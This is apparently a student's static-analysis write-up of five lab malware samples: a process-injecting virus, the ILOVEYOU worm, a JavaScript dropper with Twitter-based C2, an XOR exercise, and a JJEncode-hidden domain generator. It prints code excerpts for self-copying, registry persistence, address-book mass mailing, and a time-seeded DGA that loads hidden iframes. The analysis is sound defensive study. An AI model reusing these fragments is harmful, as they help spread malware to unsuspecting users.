





# Lab 1: malware analysis

Static analysis of five samples from a university security lab (security of systems, ÉTS, Montréal, winter 2026). The goal was to read the code without running it, explain how each sample works, and recover the hidden payloads. This write-up covers the technical analysis only, not the course-definition questions.

Lab done in a team of 4. Write-up and reformulation by Ilyas El Houdaigui. No teammate names or student IDs are included.

French version: [README.fr.md](README.fr.md).

The five samples:

1. A process-injecting virus with HTTP session riding (C++).
2. A VBScript mass-mailer worm.
3. A JavaScript dropper with a custom encoder and web-service C2.
4. A binary carrying an encrypted message, analyzed with `strings` and XOR.
5. JavaScript obfuscated with JJEncode, hiding a time-seeded domain generator.

A note on attribution: where I name a known malware family, I mark it as probable and give the indicators it is based on. The MITRE ATT&CK IDs are my own analyst mapping of the observed behaviour, not labels taken from the lab text.

## Contents

1. [Sample 1: process-injecting virus with HTTP session riding](#sample-1-process-injecting-virus-with-http-session-riding)
2. [Sample 2: VBScript mass-mailer worm](#sample-2-vbscript-mass-mailer-worm)
3. [Sample 3: JavaScript dropper with a custom encoder and web-service C2](#sample-3-javascript-dropper-with-a-custom-encoder-and-web-service-c2)
4. [Sample 4: strings, XOR, and a Base64 key](#sample-4-strings-xor-and-a-base64-key)
5. [Sample 5: JJEncode and a time-seeded domain generator](#sample-5-jjencode-and-a-time-seeded-domain-generator)
6. [Tools used](#tools-used)
7. [Technique summary (MITRE ATT&CK)](#technique-summary-mitre-attck)

---

## Sample 1: process-injecting virus with HTTP session riding

Written in C++ for Windows. It spreads by injecting itself into other processes owned by the current user, then abuses the user's own HTTP session to post content on their behalf.

### How it reaches every process

The core routine (`_injectToAll`) enumerates running processes and tries to inject each one. It takes a snapshot with `CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)` and walks it with `Process32FirstW` / `Process32NextW`:

```cpp
if (CWA(kernel32, Process32FirstW)(snap, &pe)) do {
    // for each process pe in the snapshot:
    if (injectMalwareToProcess(pe.th32ProcessID, mutexOfProcess, 0)) ok = true;
} while (CWA(kernel32, Process32NextW)(snap, &pe));
```

For each process in the snapshot it calls `injectMalwareToProcess` with the PID. This is process discovery (T1057) followed by injection (T1055).

### How it avoids reinfecting the same process

Two guards, checked in order.

First, an in-memory list of PIDs it has already hit. Before injecting, it scans that list and skips the process if the PID is already there:

```cpp
for (DWORD i = 0; i < injectedPidsCount; i++)
    if (injectedPids[i] == pe.th32ProcessID) goto SKIP_INJECT;
```

The PID list is lost on reboot, so the second guard is a named mutex tied to the PID. If the mutex already exists, the process is considered infected and is skipped:

```cpp
HANDLE mutexOfProcess = MainCore::createMutexOfProcess(pe.th32ProcessID);
if (mutexOfProcess == NULL) goto SKIP_INJECT;
```

The mutex is the durable infection marker. It survives as long as the infected process lives, which covers the case where the in-memory PID list has been reset.

### How it posts content without stealing credentials

The interesting part. The sample never touches the user's password. It uses the WinINet API, which transparently reuses the browser's existing session: cookies, proxy settings, and session context.

```cpp
HINTERNET hInet = CWA(wininet, InternetOpenA)(
    pstrUserAgent ? pstrUserAgent : DEFAULT_USER_AGENT,
    dwFlags & WICF_USE_IE_PROXY ? INTERNET_OPEN_TYPE_PRECONFIG
                                : INTERNET_OPEN_TYPE_DIRECT,
    NULL, NULL, 0);
```

`INTERNET_OPEN_TYPE_PRECONFIG` tells WinINet to use the machine's existing Internet configuration. Combined with a browser-like user agent (`Mozilla/4.0 (compatible; MSIE 7.0; ...)`), the requests look like normal traffic from a logged-in user:

```cpp
HINTERNET hReq = CWA(wininet, HttpOpenRequestA)(hConnect,
    dwFlags & WISRF_METHOD_POST ? "POST" : "GET", pstrURI, ...);
CWA(wininet, HttpSendRequestA)(hReq, headers, headersSize, pPostData, dwPostDataSize);
```

Because the session cookies ride along automatically, the server accepts the forged GET/POST as legitimate. The malware can publish links or content in the victim's name. This is browser session riding (T1185): no credential theft needed, the trust is already established by the live session.

---

## Sample 2: VBScript mass-mailer worm

A VBScript worm delivered as an email attachment.

Probable attribution: the ILOVEYOU / Loveletter worm (2000). Indicators, all present in the analyzed code: the file names `MSKernel32.vbs` and `Win32DLL.vbs`, the attachment `LOVE-LETTER-FOR-YOU.TXT.vbs`, the email subject `ILOVEYOU`, and propagation through the Outlook address book.

### Infection

The attachment runs on open through the Windows Script Host. The script first reads its own source into a variable so it can copy itself later:

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
set file = fso.OpenTextFile(WScript.ScriptFullname, 1)
vbscopy = file.ReadAll
main()
```

It then copies itself into system directories under names that look like system components:

```vbscript
Set c = fso.GetFile(WScript.ScriptFullName)
c.Copy(dirsystem & "\MSKernel32.vbs")
c.Copy(dirwin & "\Win32DLL.vbs")
c.Copy(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
```

The double extension on `LOVE-LETTER-FOR-YOU.TXT.vbs` is the social-engineering trick (T1566.001): on a system that hides known extensions, the file reads as a harmless `.TXT`.

Persistence comes from `Run` registry keys so the copies execute at every startup (T1547.001):

```vbscript
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32", dirsystem & "\MSKernel32.vbs"
regcreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Win32DLL", dirwin & "\Win32DLL.vbs"
```

### Propagation

Two propagation paths run in parallel.

Over email, the worm drives Outlook through MAPI, reads every entry in the address book, and mails the infected attachment to all of them with the subject `ILOVEYOU`. The routine is `spreadtoemail()`:

```vbscript
set out = WScript.CreateObject("Outlook.Application")
set mapi = out.GetNameSpace("MAPI")
' for each address list, for each entry:
set male = out.CreateItem(0)
male.Recipients.Add(malead)
male.Subject = "ILOVEYOU"
male.Body = "kindly check the attached LOVELETTER coming from me."
male.Attachments.Add(dirsystem & "\LOVE-LETTER-FOR-YOU.TXT.vbs")
male.Send
```

Every recipient who opens the attachment becomes a new sender.

Locally, the worm walks every fixed and removable drive (`fso.Drives`, filtered on `DriveType = 2 or 3`) and recurses through folders with `folderlist` / `infectfiles`. It targets files by extension and behaves differently per type:

- `.vbs`, `.vbe`: overwritten directly with the worm's own code.
- `.js`, `.jse`, `.css`, `.wsh`, `.sct`, `.hta`: overwritten with the worm, saved as a new `.vbs`, and the original deleted.
- `.jpg`, `.jpeg`: worm copy written as `name.jpg.vbs`, original deleted.
- `.mp3`, `.mp2`: a hidden `.vbs` copy created alongside, original hidden via the file attribute.

It also drops an mIRC script (`script.ini`) so it can spread over IRC file transfers. Overwriting user files causes real data loss (T1485).

### Overall flow

1. Lure: email with a deceptively named attachment.
2. Execution: WSH runs the VBS on open.
3. Self-copy into system directories.
4. Persistence via `Run` registry keys.
5. Email propagation to the whole address book.
6. Local propagation across all drives, overwriting target files.

---

## Sample 3: JavaScript dropper with a custom encoder and web-service C2

A browser-side JavaScript sample. The payload is never present in clear text. It is assembled from many small string variables, decoded, and run with `eval`.

### Deobfuscation approach

The end of the file contained a function that revealed the scheme: take the payload string `$a`, replace every `Z` with `%`, then call the standard `unescape()`. That is a URL encoding with a non-standard escape character, chosen so that a plain URL decoder returns garbage.

To read the payload without running it, I reproduced the logic in CyberChef:

1. Extract the `$a` string.
2. Find/replace `Z` to `%`.
3. URL decode.



The result was minified onto one line, so I ran it through JS-Beautify to restore structure. Working on a static copy in an editor, rather than in a live browser, keeps the sample from executing during analysis.



### What the clean code does

The script guards against reinfection with a cookie. If `rf5f6ds` is already set, it clears its own payload and does nothing:

```javascript
if (document.cookie.indexOf('rf5f6ds') == -1) {
    // first run: fetch instructions and build the payload
} else {
    $a = '';
}
```

For command and control it does not contact an obviously suspicious host. It requests `http://search.twitter.com/trends/daily.json` with a JSONP `callback`, and derives parameters from the daily trends data. Routing C2 through a legitimate, commonly allowed domain is a dead-drop resolver pattern (T1102.001): traffic to a well-known service rarely trips a firewall or IDS. The use of the Twitter trends endpoint as the channel is a plausible match for the Twitter-based C2 technique documented around 2009, based on the `search.twitter.com/trends/daily.json` request and the `callback` handling seen in the code.

It also has a time check. It reads `d.getUTCHours()` and shifts the requested trends date depending on whether the hour is before or after 8:00 (`if (h > 8)`). Behaviour that changes with the clock makes analysis less reproducible, which is a simple form of time-based evasion (T1497.003).

The final payload is assembled by concatenating several variables (`cc`, `cd`, `op`, `st` and others), then executed:

```javascript
eval(unescape(d + cz + op + st) + 'dw(dz+cz($a+st));');
```

Keeping the real code in memory only, built at runtime, defeats signature scanning of the file on disk (T1027).

---

## Sample 4: strings, XOR, and a Base64 key

A short reverse-engineering exercise on a binary, using the `strings` utility. `strings` reads a file and prints the sequences of printable ASCII or Unicode characters, which lets you pull text out of a binary without running it.

The binary held an encrypted message and a hint:

```
Serait-ce le message en question?
2a-10-03-1c-17-53-0f-0c-01-0c-16-53-1d-00-53-1f-0a-06-58
Mais ou est la cle?
```



The key was present but encoded:

```
Essai de decoder cette chaine
Chaine : bGEgY2xlIGVzdDogeWVz
```

`bGEgY2xlIGVzdDogeWVz` is Base64. It cannot be used as the key directly, it has to be decoded first. Decoding it gives `la cle est: yes`, so the real XOR key is `yes`.



XOR-decrypting the hex message with the key `yes` returns `Super virus de fou!`.



Chain: locate strings, spot the Base64 hint, decode to get the key, XOR the ciphertext. Each step is standard static triage.

---

## Sample 5: JJEncode and a time-seeded domain generator

The last sample is JavaScript obfuscated with JJEncode, an encoder that rewrites a script using only symbols by abusing JavaScript's type coercion. The browser still parses it as valid JavaScript, but a human cannot read it and many signature tools miss it. Decoding it (for example with a JJEncode decoder or de4js) gives readable source.

The clean code is a domain generation algorithm (T1568.002) feeding a drive-by loader (T1189). A seeded pseudo-random generator produces domain names from the current time:

```javascript
function RandomNumberGenerator(unix) {
    var d = new Date(unix * 1000);
    var s = d.getHours() > 12 ? 1 : 0;
    this.seed = 2345678901 + (d.getMonth() * 0xFFFFFF)
              + (d.getDate() * 0xFFFF) + (Math.round(s * 0xFFF));
    // linear congruential generator constants:
    this.A = 48271; this.M = 2147483647;
    // ...
}

function generatePseudoRandomString(unix, length, zone) {
    var rand = new RandomNumberGenerator(unix);
    var letters = ['a','b','c', /* ... */ 'z'];
    var str = '';
    for (var i = 0; i < length; i++)
        str += letters[createRandomNumber(rand, 0, letters.length - 1)];
    return str + '.' + zone;
}
```

Every 500 ms it generates a domain and injects a hidden zero-size IFRAME pointing at it:

```javascript
setTimeout(function () {
    var unix = Math.round(+new Date() / 1000);
    var domainName = generatePseudoRandomString(unix, 16, 'ru');
    ifrm = document.createElement("IFRAME");
    ifrm.setAttribute("src", "http://" + domainName + "/runforestrun?sid=botnet");
    ifrm.style.width = "0px";
    ifrm.style.height = "0px";
    ifrm.style.visibility = "hidden";
    document.body.appendChild(ifrm);
}, 500);
```

Because the generator is seeded by the clock, the domain looks random but is predictable. The attacker runs the same algorithm to know in advance which domain to register, which defeats static domain blacklists.

Probable attribution: the RunForestRun campaign (2012). Indicators, both present in the code: the request path `/runforestrun?sid=botnet` and the time-seeded domain generator.

Why the browser runs symbol-only code: JJEncode never adds new language features, it only re-expresses the same program through coercion between strings, numbers, and arrays. To the engine it is ordinary JavaScript, so it executes normally.

---

## Tools used

- `strings` for pulling text out of a binary without executing it.
- CyberChef for the custom decode (character replace, then URL decode) and Base64.
- JS-Beautify for reformatting minified JavaScript.
- A JJEncode decoder (de4js) for the symbol-only sample.
- A plain text editor for reading scripts offline, so nothing runs during analysis.

## Technique summary (MITRE ATT&CK)

Analyst mapping of the observed behaviour.

| Sample | Technique | ID |
|--------|-----------|-----|
| 1 | Process discovery | T1057 |
| 1 | Process injection | T1055 |
| 1 | Browser session hijacking (session riding via WinINet) | T1185 |
| 2 | Phishing attachment (double extension lure) | T1566.001 |
| 2 | Command execution via Visual Basic / WSH | T1059.005 |
| 2 | Persistence via registry Run keys | T1547.001 |
| 2 | Data destruction (file overwrite) | T1485 |
| 3, 4, 5 | Obfuscated files or information | T1027 |
| 3 | Web service as dead-drop resolver | T1102.001 |
| 3 | Time-based evasion | T1497.003 |
| 5 | Domain generation algorithm | T1568.002 |
| 5 | Drive-by compromise (hidden IFRAME) | T1189 |

## Note on scope and ethics

This write-up documents analysis only. It contains no runnable malware, no complete payloads, and no live command-and-control infrastructure. The samples were provided in a controlled university lab for defensive study. Everything here is meant to show how these families work so they can be detected and understood.
